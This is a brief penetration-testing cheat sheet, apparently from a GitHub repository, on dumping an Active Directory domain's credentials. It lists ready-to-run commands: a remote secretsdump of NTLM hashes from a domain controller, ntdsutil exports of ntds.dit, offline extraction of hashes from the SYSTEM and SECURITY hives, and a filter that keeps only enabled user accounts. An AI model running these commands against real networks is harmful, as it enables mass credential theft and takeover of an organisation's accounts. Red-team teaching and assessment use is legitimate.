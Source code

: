 # Dump the domain

## Remote Access

### Secretsdump.py

```text
secretsdump -just-dc-ntlm -user-status -o [out_file] [Domain]/[User]@[IP] 
```

## Local Access

### NTDSutil

Windows binary allows for export of ntds.dit

```text
ntdsutil "activate instance ntds" "ifm" "create full c:\windows\temp\" "quit" "quit"
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\Pentest' quit quit"
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\Pentest' q q"
```

This can then be extracted using secretsdump.py and registry hashes

```text
secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit local
```

Alternatively, additional information can be included such as if accounts are active:

```text
secretsdump.py -system ./SYSTEM -ntds ./ntds.dit  -o ntdis-extract -user-status LOCAL
```

Then the output can be filtered to remove both disabled and machine accounts:

```text
grep -i "enabled" <secetsdump.py_output.txt> | grep -v "\\$" | sed -e 's! (status=Enabled)!!' $1 > output-filtered.txt
```



